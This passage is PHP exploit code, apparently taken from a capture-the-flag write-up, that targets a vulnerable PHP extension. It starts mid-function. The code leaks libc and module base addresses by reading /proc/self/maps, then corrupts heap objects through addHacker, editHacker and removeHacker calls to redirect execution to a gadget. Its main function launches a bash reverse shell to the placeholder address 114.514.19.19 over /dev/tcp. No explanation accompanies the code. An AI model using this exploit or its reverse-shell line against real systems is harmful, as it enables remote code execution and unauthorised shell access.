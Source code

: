 ```php
    ob_start("leakaddr");  
    include("/proc/self/maps");  
    $buffer = ob_get_contents();  
    ob_end_flush();  
    leakaddr($buffer);  
    $libc_base=hexdec($libc[1][0]);  
    $module_base=hexdec($mbase[1][0]);  
}  
function attack($cmd){  
    global $libc_base, $module_base;  
    $payload = str_pad(p64($module_base + 0x4038).p64(0xff), 0x40, "\x90");  
    $gadget = p64($libc_base + 0x4c490);  
    addHacker(str_repeat("\x90", 0x8), str_repeat("\x90", 0x30));  
    addHacker($payload, str_repeat("\x90", 0x2f));  
    addHacker(str_pad($cmd, 0x20, "\x00"), "114514");  
    editHacker(0, $gadget);  
}  
function main(){  
    $cmd = 'bash -c "bash -i >& /dev/tcp/114.514.19.19/810 0>&1"';  
    leak();  
    attack($cmd);  
    removeHacker(2);  
}  
  
main();  
?>
```